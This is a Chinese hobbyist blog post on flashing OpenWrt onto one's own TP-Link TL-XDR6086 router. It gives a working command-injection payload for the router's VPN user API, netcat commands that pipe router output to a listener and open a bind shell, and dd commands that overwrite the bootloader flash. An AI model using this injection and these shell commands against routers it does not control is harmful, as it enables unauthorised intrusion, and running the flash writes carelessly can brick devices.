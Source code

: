 ```yaml
---
title: 'TP-Link TL-XDR6086 刷机原理和教程'
description: '利用 L2TP 服务器删除时的 shell 注入漏洞刷 OpenWrt'
pubDate: 'Aug 29 2024'
heroImage: 'https://imagedelivery.net/6gszw1iux5BH0bnwjXECTQ/727ee92c-717e-4d32-b8f2-98b9865c8300/small'
---
```


为了满足：

1. 可以刷 OpenWrt
2. 内置天线，体积较小
3. 有 2.5 网口
4. CPU 够用

的需求，从 OpenWrt 支持设备列表中找到了 TP-Link TL-XDR6086，搞了一个，开始折腾。

恩山论坛上有挺多刷机教程，不过我最开始直接照着做发现基本上都不行，于是研究了一下原理，自己折腾。

基本上是抄的 [OpenWrt 教程](https://openwrt.org/toh/tp-link/xdr-6086)

## 常识科普

通常来说，路由器是不能刷机的。路由器的刷机类似于手机的 Root，都是利用系统漏洞获得本不应该获得的权限。

如果你按照这篇文章的方法一比一照做刷成砖了，和我没有半毛钱关系。 It works on my machine. （你猜为什么我博客没有留评论区。）

很多路由器厂商 ~甚至是 nas 厂商~ 的系统都是基于 OpenWrt 的，其中也包括 TP-Link 和小米，这也是为什么我们能知道什么命令在里面可以运行。

你**应该**在 [OpenWrt Wiki](https://openwrt.org/toh/tp-link/xdr-6086) 查找设备信息，**而不是**在百度、CSDN、恩山论坛或者什么其他地方。

你可以从 [OpenWrt 预编译的包](https://downloads.openwrt.org/releases/21.02-SNAPSHOT/packages/aarch64_cortex-a53/packages/) 中下载软件包，而不必在论坛或者 CSDN 里面找别人分享的傻逼百度盘链接。

刷机过程假设你用的是 Linux（或者 Mac），如果你用的是 Windows，爬。

## 漏洞原理

调用`http://192.168.1.1/stok=${STOK}/ds`的 API 创建 VPN 时，有一个地方可以注入 Shell 命令。

> 在进入管理页面之后，F12 查看 API 调用，从 url 里面截取出`${STOk}`

```json
{
    "vpn":{
        "table":"user",
        "para":{
            "username":"; 在这里注入命令&",
            "password":"password1",
            "type":"l2tp",
            "netmode":"client2lan",
            "localip":"192.168.2.1",
            "dns":"1.1.1.1",
            "block":"0",
            "ippool":"new",
            "maxsessions":"1"
        },
        "name":"user_1"
    },
    "method":"add"
}
```

> 举个例子，如果你想要注入`echo 'fuck you'`，`username`就是`;echo 'fuck you'&`

此时，命令录入了路由器的数据库，**当删除这个 VPN 用户时，命令执行**。

## 刷机过程

用 u 盘刷机方案。我不知道为什么简中社区流传很广的方案是用 tftp 去开 server 然后让路由器通过 tftp 去拉取。为此，Windows 用户甚至需要装一个 WSL，这实在是太傻逼了。

首先，[下载`netcat`](https://downloads.openwrt.org/releases/21.02-SNAPSHOT/packages/aarch64_cortex-a53/packages/)，然后放到 FAT32 文件系统的 u 盘里面。最好重命名成 netcat.ipk，方便输入命令。

### 挂载 u 盘和 shell 反射

首先，注入，创建文件夹

```sh
mkdir /tmp/usb
```

然后，在电脑那里，创建 netcat 监听

```sh
nc -l -p 4444
```

> netcat 是一个网络调试工具，也经常被用来做 shell 反射。
> 
> 在电脑上创建 netcat 监听，然后让路由器通过`nc`命令，向电脑的 netcat 发送命令输出，就能看到 webshell 命令执行的结果了。
>
> 如果路由器安装好了 netcat，也可以反过来，让路由器的 netcat 监听电脑的输入。通过`netcat`命令，将电脑发出的 shell 命令传递到`sh`，并将结果通过`nc`命令发送到电脑，实现 shell 反射。

之后，就能得到 shell 的输出了，例如注入这个可以显示有没有成功创建文件夹。其中`192.168.1.100`应该是你的电脑的 ip 地址。

```sh
ls -la /tmp | nc 192.168.1.100 4444
```

如果成功创建文件夹，则注入以下命令挂载 U 盘。注意，如果你拔出过 u 盘然后再插入，会变成`sda2`,`sda3`每次递增，重启后恢复`sda1`。

```sh
mount -t vfat /dev/sda1 /tmp/usb
```

> 如果你不知道 u 盘究竟是什么设备名，可以注入`ls /dev | nc 192.168.1.100 4444`看看

然后，注入这个命令查看是否挂载成功。

```sh
ls -la /tmp/usb | nc 192.168.1.100 4444
```

如果挂载成功，就安装

```sh
opkg install /tmp/usb/netcat.ipk
```

完成安装 netcat 之后，就可以通过 `netcat` 创建反向 shell 了，可以通过电脑的`nc`直接传输命令，不需要注入。

```sh
netcat -lp 4444 | sh
```

### 备份

在路由器端执行

```sh
dd if=/dev/mtdblock9 of=/tmp/usb/backup.img bs=131072
```

### 刷入 U-Boot

**危险操作，请务必确定意识清醒！**

根据 [GitHub 上的讨论](https://github.com/hanwckf/immortalwrt-mt798x/issues/207)，u-boot 可以通过 [bl-mt98x 源码](https://github.com/hanwckf/bl-mt798x) 编译或者下载别人编译好的。

**依次**在路由器上执行以下两个命令，务必确保第一个成功之后再执行第二个。文件名可能有出入，但一定是先 bl2 再 fip.

```sh
dd bs=131072 conv=sync of=/dev/mtdblock9 if=/tmp/usb/xdr608x-bl2.bin
dd bs=131072 conv=sync of=/dev/mtdblock9 seek=28 if=/tmp/usb/xdr608x-fip.bin
```

> 提示：可以通过重定向配合管道运算符输出错误（`2>&1 |`）

设置电脑 ip 地址为静态的 192.168.1/24，网关为 198.168.1.1

断电路由器，然后通电，如果正常，则红灯闪烁，进去<http://192.168.1.1>可以看到 u-boot 界面。

![u-boot 界面](https://imagedelivery.net/6gszw1iux5BH0bnwjXECTQ/5d6eb200-ac42-4b02-c09b-f689ec194d00/public)

### 安装 OpenWrt

目前 OpenWrt 对 XDR-6086 的支持很差，我在恩山论坛上找到了一个`ImmortalWrt 21.02-SNAPSHOT r0-e1b4487`的 6086 固件才成功安装上。

暂不明确能否二次刷机成自己编译的 OpenWrt，但通过 U-Boot 直接刷入自行编译的 ImmortalWrt 并不能启动。

需要注意的是，XDR-6086 的 CPU 性能似乎不够，在 OpenClash 和 SSR Plus 上都只能跑到 300Mbps.